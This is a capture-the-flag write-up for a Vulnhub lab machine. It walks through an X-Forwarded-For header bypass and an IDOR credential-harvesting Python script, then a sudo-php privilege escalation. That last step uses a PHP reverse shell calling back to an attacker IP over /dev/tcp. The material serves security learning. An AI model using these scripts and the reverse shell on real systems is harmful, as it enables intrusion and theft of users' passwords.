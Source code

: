 # Vulnhub : Me and my girlfriend
***
This is one of the first boxes I solved while learning cyber security. This is my version of how I solved the box. Enjoy 
<br><br>
## Recon
***
First we need to find the device on the network.
```bash
nmap 192.168.56.*
```

![Basic nmap](./screenshots/1_finding_device.png)

From the result we can see that our vulnhub box has ip 192.168.56.126. Lets scan the device using nmap again

```bash
nmap 192.168.56.126 -sC -sV -oN nmap
```

![Detailed nmap](./screenshots/2_nmap.png)

Only SSH and a HTTP is available for the time being. Lets see the webpage.

![Landing page](./screenshots/3_landing.png)

It has a message. Looks like the webserver accepts request from localhost. Lets see the source code to see if its a framework or just some typed code

![Web source code](./screenshots/4_source.png)

Well, there is a comment : <br> ``` Maybe you can search how to use x-forwarded-for```

For all who didn't get it. You see, when we make a web request additonal details are sent with the request; like type of request, data inside the requests, origin etc... Such details are stored in the headers. Now, there are standard headers as well as custom headers. <br>
**X-Forwarded-For** is one such custom header, which specifies the **origin of the request**. There are several similar headers, I'll leave that to you to explore <br>

Let us use burp to test our theory. First i'll capture the request and then I'll modify it.
![Burp test](./screenshots/5_burp.png)

I'll forward the request to Repeater tab and lets add our X-Forwarded-For header
![Burp response](./screenshots/6_add_header.png)

Well, you can see we get a 302 redirect. Lets render the page inside burp and get what is inside.
![Rendered webpage](./screenshots/7_rendered.png)
The page looks legit. For our convinience lets do a small workaround. Instead of adding the header manually to each request, lets tell burp to add them and we'll view the result in the browser.
<br>
In burp, ***Options*** ==> ***Match and Replace*** ==> ***Add**<br>

![Add rule](./screenshots/8_match_and_replace.png)

Don't match for anything, just add X-Forwarded-For header to request. Click okay and make sure that a blue checkmark is enabled. Now disable intercept and view the webpage in browser.
![Browser response](./screenshots/9_landing.png)
Looks like it has some register functionality. Lets add a new user and see the working inside. I'll make my account as legit as possible.
![Account creation](./screenshots/10_register.png)
After registering we get a profile section. Lets visit that.
![Profile section](./screenshots/11_after_register.png)
Did you notice something ? 
1. URL has an ***user_id** parameter
2. Profile page shows our password in a form
<br>

This might be our entry point. First of all if there is a user_id that the web server is using to display data, maybe we can change and look at other user's data.<br>
Second of all, note that the password is masked, but it will be visible if you inspect the webpage
![Close inspection](./screenshots/12_profile_page.png)
<br><br>
![IDOR](./screenshots/13_idor.png)
As it turns out we can see others users data.
Lets write a simple python script to gather data of exiting users.

<br>
Here's the code : [get_creds.py](https://gist.github.com/ajaysram/80a19ec3f91ce761e62c0b56b11d037e)

```python
import requests
import re


headers = {"X-Forwarded-For":"localhost"}

requests.get("http://192.168.56.125/?page=login",headers=headers)
data = {"username":"dbadmin","password":"1234"}

with requests.Session() as s:
    a = s.post("http://192.168.56.126/misc/process.php?act=login",data=data,headers=headers)

    base_url = "http://192.168.56.126/?page=profile&user_id="
    print("USER",21*' ',"USERNAME",17*' ',"PASSWORD")
    for i in range(0,100):
        user_url = base_url + str(i)
        d = s.post(user_url,headers=headers)
        data = re.findall('value=.*\"',d.text)

        cleaned = []
        for d in data:
            cleaned.append(d.replace('value="',"").replace('"',""))

        names     = cleaned[0]
        usernames = cleaned[1]
        password  = cleaned[2]
        if len(names) != 0:
            print(names,(25-len(names))*' ',usernames,(25 - len(usernames))*' ',password)
```

![Gathering creds](./screenshots/14_creds.png)

**tee** command here, works similar to the letter **T**. It takes output of a result and splits then into two; first to standard out and other to a file.

<br><br>
## Getting user
***
Let's SSH into the box as alice with the password we gathered.
![SSH Alice](./screenshots/15_alice_ssh.png)
And it works ! That's why we say not to use same password for all stuffs !!!
Lets list all directories and see the contents inside.
![Flag 1](./screenshots/16_flag1.png)
There is your first flag and a note. Do read them.<br>

## Getting root
***
Lets move on. Now, lets see if we can get root (admin) privileges. Do a sudo listing and see the commands **root** can run.
![Sudo listing](./screenshots/17_sudo_list.png)
<br>
Whoa !!! root can run php without password. Now you know what to do next.<br>
Lets create a php reverse shell and get a connection callback.<br>

![PHP reverse shell](./screenshots/18_revshell.png)
```php
<?php 
    exec(""/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP/9000 0>&1');
?>
```

Lets run the reverse shell as root. Since root can run php without password, we get a connection with root priviledges.
![Getting root](./screenshots/19_getting_root.png)

And there you have it, you have full control over the box.<br>
***
The box is pretty simple to solve and focuses on small parts of cybersecurity. You get to learn new stuff and you code some cool scripts. Do follow for more writeups.<br>
Till then, keep learning
